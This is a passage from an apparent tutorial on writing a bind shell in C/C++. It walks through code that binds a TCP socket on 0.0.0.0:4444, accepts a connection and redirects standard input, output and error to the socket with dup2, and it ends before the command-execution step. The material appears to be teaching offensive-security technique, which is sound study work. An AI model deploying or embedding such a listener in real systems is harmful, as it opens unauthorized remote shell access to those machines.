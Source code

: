 ```cpp
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = INADDR_ANY;
server_address.sin_port = htons(4444);

// bind the socket to 0.0.0.0:4444
bind(server_socket_fd, (struct sockaddr *)&amp;server_address, sizeof(server_address));

// set it as a passive socket that listens for connections
listen(server_socket_fd, 1);
```

Let's look at the code above: initially, a socket is created through the `socket` function, which returns a `File Descriptor`.

The arguments `SOCK_STREAM` and `IPPROTO_TCP` allow for the creation of a `TCP` socket.

After that, you have to to specify the address and port number on which to bind the socket. In this case, I used `INADDR_ANY` (i.e. `0.0.0.0`) and the typical TCP port used by *Metasploit* (`4444`).

These variables are passed to the `bind` function, which performs the binding operation. However, if you were to run `ss -tnl` (or `netstat -plnt`), you wouldn't find the current socket yet.

The reason is that we have to execute the `listen` function first. Let's look at its [prototype](https://man7.org/linux/man-pages/man2/listen.2.html):

```cpp
#include <sys/socket.h>

int listen(int sockfd, int backlog);
```

It accepts 2 arguments:

- the file descriptor of a TCP socket
- *the maximum length to which the queue of pending connections for sockfd may grow* (ref: [man page](https://man7.org/linux/man-pages/man2/listen.2.html))

Before being able to receive data and execute commands, the socket has to accept a connection from incoming clients:

```cpp
int client_socket_fd, bytes_read, size_client_socket_struct;
struct sockaddr_in client_address;

// accept incoming connections
size_client_socket_struct = sizeof(struct sockaddr_in);
client_socket_fd = accept(server_socket_fd, (struct sockaddr *)&amp;client_address, (socklen_t *)&amp;size_client_socket_struct);
```

Accept a client connection and place its socket inside the variable `client_address`.

```cpp
// redirect standard input/output/error to the socket
dup2(client_socket_fd, 0);
dup2(client_socket_fd, 1);
dup2(client_socket_fd, 2);
```
